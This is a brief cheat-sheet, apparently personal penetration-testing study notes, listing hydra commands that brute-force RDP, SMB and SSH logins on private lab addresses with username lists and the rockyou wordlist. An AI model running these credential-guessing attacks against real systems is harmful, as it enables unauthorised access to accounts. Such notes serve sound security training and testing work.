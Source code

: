 hydra is used to brute force password, in [[password breaking]] operations.

#### RDP

for user probing
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

for password breaking
```
hydra -l nadine -P rockyou.txt rdp://192.168.50.202
```


#### SMB
```
hydra -l nadine -P rockyou.txt smb://192.168.50.202
```

#### SSH
```
hydra -L usernames.txt -P passwords.txt ssh://192.168.255.255 -t 4 -vV
```
`-vV`: Shows detailed progress in the terminal
`-t 4`: Controls speed by limiting to 4 simultaneous attempts
